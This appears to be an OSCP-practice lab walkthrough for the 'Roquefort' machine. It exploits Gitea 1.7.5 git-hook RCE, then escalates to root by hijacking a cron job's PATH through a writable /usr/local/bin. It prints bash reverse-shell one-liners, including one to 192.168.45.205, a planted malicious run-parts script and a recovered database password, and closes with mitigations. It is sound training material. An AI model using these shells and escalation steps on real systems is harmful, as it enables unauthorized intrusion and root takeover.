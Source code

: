 ```yaml
---
title: Roquefort
date: 2025-05-15
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, gitea-git-hooks, CVE-2020-14144, cron-job-PATH-hijacking-privesc ] 
image: roq.jpg
media_subpath: /assets/img/posts/2025-05-16-roquefort/
---
```


## Introduction

In this walkthrough, we exploit an **authenticated remote code execution (RCE)** vulnerability in **Gitea version 1.7.5** to gain an initial foothold on the target machine. After successful exploitation, we gain a shell as a low-privileged user.

For privilege escalation, we identify **weak directory permissions** on `/usr/local/bin/`, which is writable. Combined with a **cron job** that executes scripts without full paths, we perform **PATH hijacking** by placing a malicious script in the writable directory, resulting in **code execution as root**.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

### Port 21

Version - ProFTPD 1.3.5b

[ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)](s://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/49908&ved=2ahUKEwisjIHgp6aNAxVOhv0HHQEYA9MQFnoECBsQAQ&usg=AOvVaw297_acnttdRbGslRe4v3YT)

[ProFTPd 1.3.5 - File Copy](https://www.exploit-db.com/exploits/36742)

Anonymous access is not allowed and common credentials like `admin:admin`, `admin:password`do not work.

### Port 22

Version  - OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)

We usually skip SSH.

### Port 2222

Version - Dropbear sshd 2016.74 (protocol 2.0)

[Dropbear SSH 0.34 - Remote Code Execution](https://www.exploit-db.com/exploits/387)

[DropBearSSHD 2015.71 - Command Injection](https://www.exploit-db.com/exploits/40119)

## Web

### Port 3000

Version - Golang net/http server

## Exploitation

[Gitea 1.7.5 - Remote Code Execution](https://www.exploit-db.com/exploits/49383)

We need a valid account with `'"May create git hooks" rights activated."` which is default for administrative users, and for non-administrative users this permission should be granted by an administrator.

I followed instructions given here:

[https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce/blob/main/README.md](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce/blob/main/README.md)

I got the reverse shell, my reverse shell immediately died with :

```bash
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
```

But then I used:

```bash
bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
```

I see `.ssh` directory for `chloe` user in order to ensure persistence I am gonna create ssh keys and put them there.

```bash
ssh-keygen -t rsa
```

>**VERY important:**

- `.ssh` must be `700`
- `authorized_keys` must be `600`
- Owned by `chloe`

Otherwise SSH **refuses** to use them.
{: .prompt-warning }

When you have gained access exploiting some service first carefully enumerate sensitive and important files related to that service. For `gitea` I found `gitea.db` , and searching for it from root directory using the command:

```bash
grep -r "gitea.db"
```

I found it is mentioned in `/etc/gitea/app.ini` , and I found a password for the locally accessible MySQL database there, 

```bash
[database]
DB_TYPE  = mysql
HOST     = 127.0.0.1:3306
NAME     = giteadb
USER     = gitea
PASSWD   = 7d98afcbd8a6c5b8c2dfb07bcbe29d34
SSL_MODE = disable
PATH     = data/gitea.db
```

I used this password to login as root but it didn’t work, then I used `mysql` and connected to database.

```bash
mysql -u gitea -p 
```

I analyzed `giteadb` database `user` table and found just my newly created users names and their passwords and nothing interesting, but this step was important as it may have provided password for potentially privileged user or for lateral movement.

## Privilege Escalation

- OSCP checklist
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles

Running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS):

![image.png](image%203.png)

We have just one binary there which is owned by us, so that does not give us anything very useful.

Checking `/etc/crontab` I can see `run-parts` binary run by root and also we see that the binary’s absolute path is not defined there, that means we can inject our binary in upper directories in the `PATH`, that could be `/usr/local/bin` which is controlled directory by us.

![image.png](image%205.png)

We can put our malicious binary in `/usr/local/bin` and wait for 5 minutes until the binary is executed.

I put the following content to the new `run-parts` binary:

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/192.168.45.205/21 0>&1'
```

![image.png](image%206.png)

After waiting a bit we got a connection:

![image.png](image%207.png)

Now we are root!

## Mitigation

- **Update Gitea** to the latest version, as older versions like 1.7.5 contain known RCE vulnerabilities.
- Restrict **write permissions** on sensitive directories like `/usr/local/bin/` to trusted administrators only.
- Avoid relying on the **PATH environment variable** in scripts run by privileged users or cron jobs—always use **absolute paths**.
- Regularly **audit file and directory permissions**, especially those involved in scheduled or automated tasks.
- Implement **least privilege access** and continuously monitor for suspicious privilege escalation activity.
